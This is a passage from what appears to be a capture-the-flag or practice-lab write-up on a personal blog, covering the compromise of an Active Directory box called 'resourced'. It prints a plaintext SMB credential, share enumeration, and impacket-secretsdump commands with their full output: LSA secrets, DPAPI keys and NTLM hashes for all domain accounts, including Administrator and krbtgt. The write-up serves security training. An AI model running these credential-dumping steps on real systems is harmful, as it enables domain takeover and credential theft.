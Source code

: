 checking for access, we got access to smb using the creds `v.ventz:HotelCalifornia194!` but not local admin, let's enumerate further. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/9ab5d134-368f-4a89-a43a-51bc94ec2731)

using crackmap to enumerate shares, we got some shares we can read. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/4c19ced2-97ef-466b-a489-40e9f3ce3b4a)

checking the smb shares `Password Audit`, we got some password registry files. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/resourced]
└─$ impacket-secretsdump -system SYSTEM -security SECURITY LOCAL
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:507fdb105d9322cf53420c95780adf5f2dcdac7ca14f8b37188370c916a3fa6f2a511bb284aeac71211c939a866a2b4cc02c408e1d242ad4f5cc8f7b85d2448c18d23fb47f7b9b543a6cfb8999e40037f23dbfd8690869753979d15fe61bdcddb0ccff3d20c275207ca93e844c3b5aa1f658198225b3e54f90e0b71aaf76ba32bb1b598d189b6696c27d04674fd4c4f2c09d0df2e59fe93850aa928be813be3bd659f0d2ecba6e34fb5a3880db8155cf77e21eb44d63e1ae65abcc2aa5bdfb6bfe85e8590329929522aae501ba86d8622918e37b41daef8a2b00e78440d13e88a31fc14714923bba6fb99e13c81b3020
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x85ec8dd0e44681d9dc3ed5f0c130005786daddbd
dpapi_userkey:0x22043071c1e87a14422996eda74f2c72535d4931
[*] NL$KM 
 0000   31 BF AC 76 98 3E CF 4A  FC BD AD 0F 17 0F 49 E7   1..v.>.J......I.
 0010   DA 65 A6 F9 C7 D4 FA 92  0E 5C 60 74 E6 67 BE A7   .e.......\`t.g..
 0020   88 14 9D 4D E5 A5 3A 63  E4 88 5A AC 37 C7 1B F9   ...M..:c..Z.7...
 0030   53 9C C1 D1 6F 63 6B D1  3F 77 F4 3A 32 54 DA AC   S...ock.?w.:2T..
NL$KM:31bfac76983ecf4afcbdad0f170f49e7da65a6f9c7d4fa920e5c6074e667bea788149d4de5a53a63e4885aac37c71bf9539cc1d16f636bd13f77f43a3254daac
[*] Cleaning up...
```
using `impacket-secret` dump to dump stored hashes, we got nothing useful in the `SECURITY` let's try the `ntds`. 

```shell
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/resourced]
└─$ impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL                                                                                                           
Impacket v0.12.0.dev1+20230909.154612.3beeda7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 9298735ba0d788c4fc05528650553f94
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:12579b1666d4ac10f0f59f300776495f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
RESOURCEDC$:1000:aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3004b16f88664fbebfcb9ed272b0565b:::
M.Mason:1103:aad3b435b51404eeaad3b435b51404ee:3105e0f6af52aba8e11d19f27e487e45:::
K.Keen:1104:aad3b435b51404eeaad3b435b51404ee:204410cc5a7147cd52a04ddae6754b0c:::
L.Livingstone:1105:aad3b435b51404eeaad3b435b51404ee:19a3a7550ce8c505c2d46b5e39d6f808:::
J.Johnson:1106:aad3b435b51404eeaad3b435b51404ee:3e028552b946cc4f282b72879f63b726:::
V.Ventz:1107:aad3b435b51404eeaad3b435b51404ee:913c144caea1c0a936fd1ccb46929d3c:::
S.Swanson:1108:aad3b435b51404eeaad3b435b51404ee:bd7c11a9021d2708eda561984f3c8939:::
P.Parker:1109:aad3b435b51404eeaad3b435b51404ee:980910b8fc2e4fe9d482123301dd19fe:::
R.Robinson:1110:aad3b435b51404eeaad3b435b51404ee:fea5a148c14cf51590456b2102b29fac:::
D.Durant:1111:aad3b435b51404eeaad3b435b51404ee:08aca8ed17a9eec9fac4acdcb4652c35:::
```